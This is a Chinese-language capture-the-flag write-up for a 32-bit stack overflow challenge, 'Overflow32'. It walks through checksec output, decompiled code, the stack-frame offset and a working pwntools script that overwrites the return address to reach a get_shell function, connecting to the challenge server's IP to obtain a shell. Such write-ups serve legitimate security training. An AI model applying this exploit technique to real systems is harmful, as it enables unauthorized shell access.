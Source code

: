 # Overflow32

本题主要考察了基本的栈溢出

## 预处理

首先我们可以用一个小工具 `checksec` 查看二进制文件对应的**漏洞缓解机制**。
（该工具包含在python库 `pwntools` 里，也可以在 `github` 上下载项目安装）

```bash
checksec overflow3211
```

输出如下

```plain
[*] '/......./overflow3211'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

发现没有 `canary` （**栈溢出**保护）和 `PIE` （**地址随机化**保护）

## 逆向二进制文件

使用ida32打开 `overflow3211` 找到主要函数 `main` `vuln` `getshell` 的伪c代码如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  puts("overflow32");
  vuln(&argc);
  return 0;
}

char *vuln()
{
  char s[104]; // [esp+Ch] [ebp-6Ch] BYREF

  puts("Enter your message:");
  return fgets(s, 200, stdin);
}

int get_shell()
{
  puts("Wow, you found me!");
  return system("/bin/sh");
}
```

在 `vuln` 函数中，我们发现栈溢出的漏洞：缓冲区 `s` 只有104个字节，但 `fgets` 却向该处写入最大200字节的数据。我们只需要将 `vuln` 函数的返回地址改成 `get_shell` 即可得到目标的 `shell`

在ida中查看 `vuln` 函数的栈帧

```nasm
-00000078 ; D/A/*   : change type (data/ascii/array)
-00000078 ; N       : rename
-00000078 ; U       : undefine
-00000078 ; Use data definition commands to create local variables and function arguments.
-00000078 ; Two special fields " r" and " s" represent return address and saved registers.
-00000078 ; Frame size: 78; Saved regs: 4; Purge: 0
-00000078 ;
-00000078
-00000078                 db ? ; undefined
-00000077                 db ? ; undefined
-00000076                 db ? ; undefined
-00000075                 db ? ; undefined
-00000074                 db ? ; undefined
-00000073                 db ? ; undefined
-00000072                 db ? ; undefined
-00000071                 db ? ; undefined
-00000070                 db ? ; undefined
-0000006F                 db ? ; undefined
-0000006E                 db ? ; undefined
-0000006D                 db ? ; undefined
-0000006C s               db 104 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```

查看左侧相对于基址的偏移量，我们可以计算得需要填充 `0x6c+0x4` 个字节，即 `112` 个字节，再填入 `get_shell` 的地址（在ida中寻找） `0x080491F6` 即可。


根据题目给到的ip和端口，有脚本如下

```python
from pwn import *

conn=connect("58.87.70.227",10009)
payload=b"a"*112+p32(0x080491F6)

conn.recvline()
conn.recvline()
conn.sendline(payload)
conn.interactive()
```

`payload` 即为构造的输入

在Linux中运行脚本，随后得到`flag`（**注意这里的`flag`是变动的**）

![1732462300061](image/pwn0-wp/1732462300061.png)